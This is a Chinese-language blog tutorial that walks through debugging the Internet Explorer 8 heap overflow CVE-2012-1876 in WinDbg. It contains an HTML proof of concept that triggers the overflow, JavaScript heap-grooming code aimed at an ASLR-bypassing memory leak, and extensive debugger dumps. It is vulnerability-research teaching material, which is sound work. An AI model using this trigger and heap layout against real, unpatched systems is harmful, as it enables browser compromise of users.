# IE8堆溢出漏洞CVE-2012-1876

**Author：wnagzihxa1n
Mail：wnagzihxa1n@163.com**

我觉得浏览器很好玩，所以在阅读了一些文章之后，我开始学习使用Windbg调试浏览器的漏洞

**我建议先通读全文，再跟着操作，毕竟我遇到了很多坑，都写进去了，要是不通读全文容易走火入魔，万劫不复**

首先是安装环境，我这里使用的是Windows7 32位，Windbg的官方下载地址如下，不管看到啥版本，下载就行
- https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools

下载完成后双击运行，选择第一个，点击下一步



选择是否发送崩溃信息等数据给微软，选择no



检测环境，提示我缺少一个补丁



通过提示到官网下载，下载完成安装到时候提示我提供的镜像并不能使用这个补丁


后来仔细阅读了官网补丁页面的说明，支持Windows7 SP1



所以通过自带的补丁更新工具升级到SP1，速度还是比较慢的



升级完后，安装刚才的补丁，再重新进行Windbg的安装，此时就可以顺利安装上了


安装完成后重启系统，让补丁生效

再次进行Windbg的安装，这次我们看到的是接受协议的界面



选择接受协议，进入安装选项界面，默认全选，那就全选吧


然后就等着安装完即可，安装完后没有桌面图标，需要在开始栏手动点击
发送到桌面快捷方式

来配置符号，创建环境变量`_NT_SYMBOL_PATH`，写入
```
C:\MSSymbols; SRV*C:\MSSymbols*http://msdl.microsoft.com/download/symbols
```

本次要分析的是多年前IE浏览器的一个堆溢出漏洞，Poc如下
```
<html>
<body>
    <table style="table-layout:fixed" >
        <col id="132" width="41" span="6" >&nbsp </col>
    </table>

    <script>

    function over_trigger() {
        var obj_col = document.getElementById("132");
        obj_col.width = "42765";
        obj_col.span = 666;
    }

    setTimeout("over_trigger();",1);

    </script>
</body>
</html>
```

我们先测试下Poc的效果，确保当前调试IE的版本存在该漏洞



在确定Poc起作用的情况下，再次使用IE浏览器打开Poc，弹出阻止框的时候，使用Windbg进行附加，有两个IE进程，第一个是浏览器进程，第二个是内容进程

这里直接附加第二个是不能够在触发漏洞的时候断下的，因为涉及到子进程的问题

根据师傅们教我的方法以及在调试过程中的总结，这里提供两种方法：
1. 运行IE，使用Windbg进行附加，不管PID的大小，附加第一个，附加上后，在命令行输入`.childdbg 1`，开启子进程调试，这样触发漏洞的时候就可以断下了
2. 运行IE，使用Windbg查看此时的IE进程的PID，记录下两个PID，然后使用IE打开Poc，此时处于IE阻止脚本执行的状态，重新打开Windbg Attach的窗口，就可以看到第三个IE进程了，选择新出现的IE进程即可



开启堆调试
```
"C:\Program Files\Windows Kits\10\Debuggers\x86\gflags.exe" -i iexplore.exe +hpa
```

下三个断点
```
0:013> bp mshtml!CTableLayout::CalculateMinMax
0:013> bl
     0 e Disable Clear  5e10a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
0:013> bp mshtml!_HeapRealloc
0:013> bl
     0 e Disable Clear  5e10a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
     1 e Disable Clear  5e1bd7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
0:013> bp mshtml!CTableCol::GetAAspan
0:013> bl
     0 e Disable Clear  5e10a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
     1 e Disable Clear  5e1bd7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
     2 e Disable Clear  5e08a6cb     0001 (0001)  0:**** mshtml!CTableCol::GetAAspan
```

因为程序跑起来的过程中会进行很多后两个断点函数的调用，所以我们暂时禁用
```
0:005> bd 1 2
0:005> bl
     0 e Disable Clear  5e10a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
     1 d Enable Clear  5e1bd7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
     2 d Enable Clear  5e08a6cb     0001 (0001)  0:**** mshtml!CTableCol::GetAAspan
```

一直按`g`，直到程序跑起来，在IE主窗口打开我们的Poc文件，选择允许执行，程序会断下，如下所示



回溯一下函数调用
```
0:005> kb
 # ChildEBP RetAddr  Args to Child              
00 0222c02c 5e10a6b8 00435e30 0222c2c0 00000000 mshtml!CTableLayout::CalculateMinMax
01 0222c248 5e100879 0222c2c0 0222c28c 00000001 mshtml!CTableLayout::CalculateLayout+0x276
02 0222c3f4 5e20566c 0222d310 0222c620 00000000 mshtml!CTableLayout::CalcSizeVirtual+0x720
03 0222c52c 5e2018f9 00435e30 00000000 00000000 mshtml!CLayout::CalcSize+0x2b8
04 0222c5f0 5e201646 00435e30 00018bb4 00018bb4 mshtml!CFlowLayout::MeasureSite+0x312
05 0222c638 5e2019c1 00495a20 00000061 0222d310 mshtml!CFlowLayout::GetSiteWidth+0x156
06 0222c678 5e201f70 00472920 00435e30 00000001 mshtml!CLSMeasurer::GetSiteWidth+0xce
07 0222c6fc 727c665d 00474668 0222c71c 0222c7e0 mshtml!CEmbeddedILSObj::Fmt+0x150
08 0222c78c 727c6399 00485ae4 00000000 00485bf8 msls31!ProcessOneRun+0x3e9
09 0222c7e8 727c6252 00485b00 00019818 00000000 msls31!FetchAppendEscCore+0x18e
0a 0222c83c 727c61c3 00000000 00000000 00000014 msls31!LsDestroyLine+0x47f
0b 0222c8c4 727c293f 00000007 00003b5c 00000000 msls31!LsDestroyLine+0x9ff
0c 0222c900 5e1ff95e 00000001 00000007 00003b5c msls31!LsCreateLine+0xcb
0d 0222ca50 5e210d1e 0222d310 00000007 00472930 mshtml!CLSMeasurer::LSDoCreateLine+0x127
......
```

注意第一条
```
00 0222c02c 5e10a6b8 00435e30 0222c2c0 00000000 mshtml!CTableLayout::CalculateMinMax
```

通过IDA对`mshtml.dll`进行反编译，同时加载相应的pdb文件

我们找到对应的函数定义，可以看到这个函数有两个参数，我们关注第一个参数
```
CTableLayout::CalculateMinMax(CTableCalcInfo *,int)
```

我们可以看到第一个参数是指针类型，传入的数据为`00435e30`

查看指定地址的数据，注意找到下面的`00000006`，这就是传入的`span`的数据，`00000000`为之后申请堆空间的起始地址，这个我们在后续就可以清楚的看到分配过程
```
0:005> dd 00435e30 L30
00435e30  5e009960 0046a608 00445408 5e1be3b8
00435e40  00000001 00000000 0108080d ffffffff
00435e50  00000000 00000000 00000000 ffffffff
00435e60  00018bb4 0000bd74 00000000 00000000
00435e70  00000000 00412802 00000000 00000000
00435e80  00000000(00000006)ffffffff ffffffff
00435e90  ffffffff ffffffff 5e00a594 00000004
00435ea0  00000004 004a3b50 5e00a594 00000018
00435eb0  00000006 004941f8 00000000 00000000
00435ec0  5e00a594 00000000 00000000(00000000)
00435ed0  00000000 00000000 00000000 00000000
00435ee0  00000000 00000000 00000000 00000000
```

到这一步可以开启后面两个断点了
```
0:005> be 1 2
0:005> bl
     0 e Disable Clear  5e10a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
     1 e Disable Clear  5e1bd7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
     2 e Disable Clear  5e08a6cb     0001 (0001)  0:**** mshtml!CTableCol::GetAAspan
```

运行程序，碰到分配堆空间的函数`mshtml!_HeapRealloc`断下



仔细看寄存器数据，`ecx=000000a8`，说明此时要分配的堆空间大小为`0xA8`也就是`168`，我跟着调试学习的文章说每个样式占`0x1C`（一开始为什么是这么大我不太明白，后来调试的时候发现它的大小是写进代码的），所以`0x1C * 6 = 0xA8 = 168`
```
0:005> g
Breakpoint 1 hit
eax=00000000 ebx=00000000 ecx=000000a8 edx=00000000 esi=00435ecc edi=00435ec0
eip=5e1bd7a5 esp=0222bf64 ebp=0222bf7c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!_HeapRealloc:
5e1bd7a5 8bff            mov     edi,edi
```

使用`gu`指令执行完整个堆分配的函数，然后看指针指向的数据，可以看到堆已经分配好了



堆的分配情况我们还可以从寄存器看出来，因为堆分配结果一般会把分配的地址放在`esi`寄存器，我们看到分配完成的`esi`寄存器为`00435ecc`，也就是我们在上图中看到的地址
```
0:005> gu
eax=00000000 ebx=00000000 ecx=77c45dd3 edx=00435f8f esi=00435ecc edi=00435ec0
eip=5e1d34e2 esp=0222bf6c ebp=0222bf7c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!CImplAry::EnsureSizeWorker+0xa1:
5e1d34e2 8bd8            mov     ebx,eax
```

继续运行，断在函数`mshtml!CTableCol::GetAAspan`处，这里会获取我们的`span`标签值
```
0:005> g
Breakpoint 2 hit
eax=00477e20 ebx=00435e30 ecx=00000032 edx=00000006 esi=00436038 edi=00477e20
eip=5e08a6cb esp=0222bf84 ebp=0222c02c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!CTableCol::GetAAspan:
5e08a6cb 8bff            mov     edi,edi
```



运行完这个函数，可以看到`eax`寄存器已经修改为`00000006`了
```
0:005> gu
eax=00000006 ebx=00435e30 ecx=00000002 edx=00498920 esi=00436038 edi=00477e20
eip=5e29f31f esp=0222bf88 ebp=0222c02c iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
mshtml!CTableLayout::CalculateMinMax+0x3ac:
5e29f31f 3de8030000      cmp     eax,3E8h
```



在继续运行前，我们需要给刚才申请的堆空间首地址下个写断点，这样我们就可以观察数据是如何写到堆里面的，以及观察到堆是如何没有控制写入的大小导致溢出的，注意，是堆的地址，不是存储堆地址的地址
```
0:005> ba w1 00435f90
0:005> bl
     0 e Disable Clear  5e10a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
     1 e Disable Clear  5e1bd7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
     2 e Disable Clear  5e08a6cb     0001 (0001)  0:**** mshtml!CTableCol::GetAAspan
     3 e Disable Clear  00435f90 w 1 0001 (0001)  0:**** 
```

下了断点后跑起来，第一次断下后，我们使用`ub`查看断下前的指令，这里因为我有反汇编窗口，所以可以不需要执行`ub`，再查看堆空间



那篇调试文章里说第一次断下其实数据已经写进去了，这里我不太理解，但是毕竟是第一次调试，我们先往下调试，开始的`00001004`是`100 * 41`，`41`是width，可以在Poc里看到的
```
0:005> dd 00435f90 L30
00435f90  00001004 00001004 00000000 00000000
00435fa0  00003900 00001600 00010048 00000000
00435fb0  00000000 00000000 00000000 54482e31
00435fc0  52000041 00000000 00000000 00000000
00435fd0  00000000 00000000 00000104 00000200
00435fe0  00000000 00000000 00000000 00000000
00435ff0  00000000 30003200 32003100 00000000
00436000  00000000 00000000 00000000 00000000
00436010  1c000000 00000000 00000000 00000000
00436020  00000000 00000000 00000000 00000000
00436030  00000000 00000000 63dde43f 0c00a4d0
00436040  00474250 00473820 004741a8 00000000
```

现在开始单步执行指令，一直按`p`即可（小技巧：直接回车可以执行上一个指令，所以按一次`p`，之后一直按回车就可以一直单步了）

首先单步走到`inc`指令，可以看到此时基数为`0`



赋值完为`1`，进行比较，比较的值为`6`，所以这里就是循环往堆空间写数据的控制处



我们单步跟踪`cmp`后的指令，再次走完一个循环



最终走完六个循环的堆布局(多次调试，所以此处开始的堆地址不一样)



写入数据后的堆空间如下
```
0:005> dd 070b9f58 L30
070b9f58  00001004 00001004 00001004 00000000
070b9f68  c0c0c0c0 c0c0c0c0 00010048 00001004
070b9f78  00001004 00001004 00000000 c0c0c0c0
070b9f88  c0c0c0c0 00010048 00001004 00001004
070b9f98  00001004 00000000 c0c0c0c0 c0c0c0c0
070b9fa8  00010048 00001004 00001004 00001004
070b9fb8  00000000 c0c0c0c0 c0c0c0c0 00010048
070b9fc8  00001004 00001004 00001004 00000000
070b9fd8  c0c0c0c0 c0c0c0c0 00010048 00001004
070b9fe8  00001004 00001004 00000000 c0c0c0c0
070b9ff8  c0c0c0c0 00010048 ???????? ????????
070ba008  ???????? ???????? ???????? ????????
```

接下来就应该是设置`span`为`666`的代码了，禁用掉后面三个断点
```
0:005> bd 1 2 3
0:005> bl
     0 e Disable Clear  643da078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
     1 d Enable Clear  6448d7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
     2 d Enable Clear  6435a6cb     0001 (0001)  0:**** mshtml!CTableCol::GetAAspan
     3 d Enable Clear  070b9f58 w 1 0001 (0001)  0:**** 
```

运行到下一个`mshtml!CTableLayout::CalculateMinMax`处



找到第一个参数，跟过去看数据的变化



跟过去后就可以启用中间两个断点了，然后运行到`mshtml!CTableCol::GetAAspan`
```
0:005> g
Breakpoint 2 hit
eax=07759fd0 ebx=07f38ea8 ecx=00000033 edx=00000006 esi=070ba000 edi=07759fd0
eip=6435a6cb esp=0457b914 ebp=0457b9bc iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!CTableCol::GetAAspan:
6435a6cb 8bff            mov     edi,edi
```



运行完该函数，发现没有进行堆分配，这是比较奇怪的
```
0:005> gu
eax=0000029a ebx=07f38ea8 ecx=00000002 edx=07e9aff0 esi=070ba000 edi=07759fd0
eip=6456f31f esp=0457b918 ebp=0457b9bc iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
mshtml!CTableLayout::CalculateMinMax+0x3ac:
6456f31f 3de8030000      cmp     eax,3E8h
```



我们观察上述函数执行完的返回值是`0000029a`，也就是我们的`span`值`666`

在获取到这个值后，就开始写入堆，最后导致堆溢出，本次调试写到第7次就崩了


接下来开始利用这个堆溢出漏洞，因为这是我第一次学习浏览器漏洞利用，我尽量跟着师傅们的操作走
- https://paper.seebug.org/182/
- https://www.cnblogs.com/Ox9A82/p/5718211.html

如师傅们的文章里所说，这里要绕过两个Windows平台的保护技术，第一个是ASLR，第二个是DEP

我们通过对EXP的修改来看一下如何绕过ASLR
- https://www.exploit-db.com/exploits/24017/

**接下来的一大段分析都是在很玄学的情况下调试出来的，而且这个代码有问题，并不完整，所以仅供调试参考，真正靠谱的调试在后面**

**## 玄学开始 ##**

首先来看构造堆布局的代码，这是师傅们在文章中给的代码
```
<html>
<body>
    <div id="evil"></div>
    <table style="table-layout:fixed">
        <col id="132" width="41" span="9"> </col>
    </table>
    <script language='javascript'>
        function strtoint(str) {
            return str.charCodeAt(1) * 0x10000 + str.charCodeAt(0);
        }
        var free = "EEEE";
        while (free.length < 500) free += free;
        var string1 = "AAAA";
        while (string1.length < 500) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 500) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var bl = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i += 2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            bl[i] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
    </script>
</body>
</html>
```

如代码所示，先创建三个字符串，三个字符串的长度均为`500`

进入真正的堆处理，说实话，这里不好理解，比如为什么是`500`？为什么`i+2`而不是`i++`？为什么`(0x100-6)/2`？等等问题
```
var fr = new Array();
var al = new Array();
var bl = new Array();

for (var i = 0; i < 500; i += 2) {
    fr[i] = free.substring(0, (0x100 - 6) / 2);
    al[i] = string1.substring(0, (0x100 - 6) / 2);
    bl[i] = string2.substring(0, (0x100 - 6) / 2);
    var obj = document.createElement("button");
    div_container.appendChild(obj);
}
```

一开始看到我也是很懵的，手动走一遍代码看堆布局，就好理解的多

先解释为什么是`(0x100-6)/2`？

代码中我们写的是`<col id="132" width="41" span="9"> </col>`，`span`为`9`，根据我们之前调试过程中得到的信息，需要的堆空间应该是`9*0x1C`，也就是`0xFC`，由于堆是字节对齐的，所以会申请`0x100`的堆空间，这也就是为什么我们要使用`0x100`的原因

那么`0x100-6`是啥意思呢？

在堆中，字符串表示为`BSTR`，也就是`Basic String`，它是有前缀和后缀的，前缀是4字节的长度，后缀是2字节的终止符`NULL`，所以进行了减6操作，由于是UNICODE字符串，所以字符数是字节数的一半，解释了为什么要除2，我们使用如下的代码进行测试（此处开始结合泉哥的《漏洞战争》分析，所以代码会进行适当修改）
```
<html>
<body>
    <div id="evil"></div>
    <script language='javascript'>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i+=2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i+1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
    </script>
</body>
</html>
```

这里学到个姿势，大部分的JS函数都可以在`jscript.dll`中找到对应的API名字

Attach上进程后，给`jscript!JsCollectGarbage`下断点，此处我的方式是直接把Html文件拖进IE，打开Attach窗口，第三个`iexplore.exe`就是我们要Attach的进程，释放堆块的时候，会调用到`ntdll!RtlFreeHeap`，调用它的时候，第三个参数就是被释放堆的地址，我们可以利用这个输出释放堆的地址
```
0:013> bu jscript!JsCollectGarbage
0:013> bu ntdll!RtlFreeHeap ".echo free heap;db poi(esp+c) l10;g"
0:013> bl
     0 e Disable Clear u             0001 (0001) (jscript!JsCollectGarbage)
     1 e Disable Clear  77c12c6a     0001 (0001)  0:**** ntdll!RtlFreeHeap ".echo free heap;db poi(esp+c) l10;g"
```

根据泉哥书中描述，我们存在溢出的堆块，是在`CTableLayout::CalculateMinMax`中调用`ClmpAry::EnsureSizeWorker`函数进行分配，分配的地址保存在`[esp+9c]`中，所以我们只需要在调用完这句指令的下一条指令下个断点，即可得到漏洞堆块的地址，这条指令为`mshtml!CTableLayout::CalculateMinMax+0x18C`，偏移根据自己对应的`mshtml.dll`偏移进行计算
```
0:013> bu mshtml!CTableLayout::CalculateMinMax+0x18C ".echo vulheap;dd poi(ebx+9c) l4;g"
0:013> bl
     0 e Disable Clear u             0001 (0001) (jscript!JsCollectGarbage)
     1 e Disable Clear  77c12c6a     0001 (0001)  0:**** ntdll!RtlFreeHeap ".echo free heap;db poi(esp+c) l10;g"
     2 e Disable Clear  67c0a204     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax+0x208 ".echo vulheap;dd poi(ebx+9c) l4;g"
```

将日志输出保存到文件中
```
0:013> .logopen C:\Users\wnagzihxa1n\log.txt
Opened log file 'C:\Users\wnagzihxa1n\log.txt'
```

准备工作弄完后，`g`命令运行IE，就可以看到很多的日志输出了，第一次运行会比较卡，因为需要下载一些pdb文件

运行完我们的代码，最终会断在如下位置，也就是垃圾回收处



再次运行，等待堆布局完成，等程序运行完成，日志不再变化，直接拷贝`log.txt`，可以看到我们输出了堆地址
```
......
free heap
004e1f78  80 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022dc500  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022dc920  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022dcd40  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022dd270  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022dd690  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022ddab0  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022dded0  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022de2f0  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
free heap
022de710  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
......
```

所以，为了在Windbg动态看到堆数据，我们再下一个断点
```
0:002> bu mshtml!CTableLayout::CalculateMinMax
0:013> bl
     0 e Disable Clear u             0001 (0001) (jscript!JsCollectGarbage)
     1 e Disable Clear  77c12c6a     0001 (0001)  0:**** ntdll!RtlFreeHeap ".echo free heap;db poi(esp+c) l10;g"
     2 e Disable Clear  67c0a204     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax+0x208 ".echo vulheap;dd poi(ebx+9c) l4;g"
     3 e Disable Clear  67c0a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
```

同时，修改代码（这里是非常奇怪的，按照我们分析的逻辑这里根本跑不通，但是后面竟然可以跑通）
```
<html>
<body>
    <div id="evil"></div>
    <script language='javascript'>
        var free = "EEEE";
        while (free.length < 480) free += free;
        var string1 = "AAAA";
        while (string1.length < 480) string1 += string1;
        var string2 = "BBBB";
        while (string2.length < 480) string2 += string2;
        var fr = new Array();
        var al = new Array();
        var div_container = document.getElementById("evil");
        div_container.style.cssText = "display:none";
        for (var i = 0; i < 500; i+=2) {
            fr[i] = free.substring(0, (0x100 - 6) / 2);
            al[i] = string1.substring(0, (0x100 - 6) / 2);
            al[i+1] = string2.substring(0, (0x100 - 6) / 2);
            var obj = document.createElement("button");
            div_container.appendChild(obj);
        }
        for (var i = 200; i < 500; i += 2) {
            fr[i] = null;
            CollectGarbage();
        }
		function over_trigger() {
			var leak_col = document.getElementById("132");
            leak_col.width = "41";
            leak_col.span = "19";
		}
    	setTimeout("over_trigger();" ,1); 
    </script>
    <table style="table-layout:fixed">
        <col id="132" width="41" span="9"> </col>
    </table>
</body>
</html>
```

再次运行，断在我们的第四个断点上，此时是第一次的初始化，我们再次运行，堆布局完成后就会断在垃圾回收处，我们单步走几句
```
0:005> g
free heap
0055f810  80 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
Breakpoint 0 hit
eax=01f8d388 ebx=01f8d338 ecx=006fe560 edx=6aa283d3 esi=01f99160 edi=01f8d328
eip=6aa283d3 esp=01f8d2e8 ebp=01f8d34c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
jscript!JsCollectGarbage:
6aa283d3 a180d0a36a      mov     eax,dword ptr [jscript!g_luTls (6aa3d080)] ds:0023:6aa3d080=00000039
0:005> g
free heap
027c80e0  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
Breakpoint 0 hit
eax=01f8d388 ebx=01f8d338 ecx=006fe560 edx=6aa283d3 esi=01f99160 edi=01f8d328
eip=6aa283d3 esp=01f8d2e8 ebp=01f8d34c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
jscript!JsCollectGarbage:
6aa283d3 a180d0a36a      mov     eax,dword ptr [jscript!g_luTls (6aa3d080)] ds:0023:6aa3d080=00000039
0:005> g
free heap
027c8500  fa 00 00 00 45 00 45 00-45 00 45 00 45 00 45 00  ....E.E.E.E.E.E.
Breakpoint 0 hit
eax=01f8d388 ebx=01f8d338 ecx=006fe560 edx=6aa283d3 esi=01f99160 edi=01f8d328
eip=6aa283d3 esp=01f8d2e8 ebp=01f8d34c iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
jscript!JsCollectGarbage:
6aa283d3 a180d0a36a      mov     eax,dword ptr [jscript!g_luTls (6aa3d080)] ds:0023:6aa3d080=00000039
```

随便挑一个跟过去看看布局



挑一个BSTR出来分析下格式，最前面4字节是长度，这里是`0x000000fa`，最后面2字节`00 00`是终止符`NULL`
```
027c8b30 fa 00 00 00 42 00 42 00 42 00 42 00 42 00 42 00  ....B.B.B.B.B.B.
027c8b40 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8b50 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8b60 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8b70 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8b80 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8b90 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8ba0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8bb0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8bc0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8bd0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8be0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8bf0 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8c00 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8c10 42 00 42 00 42 00 42 00 42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
027c8c20 42 00 42 00 42 00 42 00 42 00 42 00 42 00 00 00  B.B.B.B.B.B.B...
```

观察完数据后，我们禁用掉第一个断点，因为我们不再需要观察堆数据

再次运行，此时会第二次断在`mshtml!CTableLayout::CalculateMinMax`，此时为漏洞触发

我们按`g`运行，会再次断在这个断点，但是，此时已经获取到漏洞堆数据了
```
0:005> g
vulheap
02154228  00000674 00450045 00450045 00450045
free heap
00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
free heap
00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
free heap
00000000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
```

记录完成后关闭日志
```
0:005> .logclose
Closing open log file C:\Users\wnagzihxa1n\log.txt
```

跟过去，此时是`span`为`9`
```
02154228 04 10 00 00 04 10 00 00 04 10 00 00  ............
02154234 00 00 00 00 45 00 45 00 41 00 45 00  ....E.E.A.E.
02154240 48 00 01 00
                    04 10 00 00 04 10 00 00  H...........
0215424c 04 10 00 00 00 00 00 00 45 00 45 00  ........E.E.
02154258 41 00 45 00 48 00 01 00 
                                04 10 00 00  A.E.H.......
02154264 04 10 00 00 04 10 00 00 00 00 00 00  ............
02154270 45 00 45 00 41 00 45 00 48 00 01 00  E.E.A.E.H...

0215427c 04 10 00 00 04 10 00 00 04 10 00 00  ............
02154288 00 00 00 00 45 00 45 00 41 00 45 00  ....E.E.A.E.
02154294 48 00 01 00 
                     04 10 00 00 04 10 00 00  H...........
021542a0 04 10 00 00 00 00 00 00 45 00 45 00  ........E.E.
021542ac 41 00 45 00 48 00 01 00
                                 04 10 00 00  A.E.H.......
021542b8 04 10 00 00 04 10 00 00 00 00 00 00  ............
021542c4 45 00 45 00 41 00 45 00 48 00 01 00  E.E.A.E.H...

021542d0 04 10 00 00 04 10 00 00 04 10 00 00  ............
021542dc 00 00 00 00 45 00 45 00 41 00 45 00  ....E.E.A.E.
021542e8 48 00 01 00
                     04 10 00 00 04 10 00 00  H...........
021542f4 04 10 00 00 00 00 00 00 45 00 45 00  ........E.E.
02154300 41 00 45 00 48 00 01 00
                                 04 10 00 00  A.E.H.......
0215430c 04 10 00 00 04 10 00 00 00 00 00 00  ............
02154318 45 00 45 00 41 00 45 00 48 00 01 00  E.E.A.E.H...

02154324 45 00 00 00 04 be 26 2b 00 00 00 88  E.....&+....
02154330 fa 00 00 00 41 00 41 00 41 00 41 00  ....A.A.A.A.
0215433c 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154348 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154354 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154360 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
0215436c 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154378 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154384 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154390 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
0215439c 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543a8 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543b4 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543c0 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543cc 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543d8 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543e4 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543f0 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
021543fc 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154408 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154414 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
02154420 41 00 41 00 41 00 41 00 41 00 41 00  A.A.A.A.A.A.
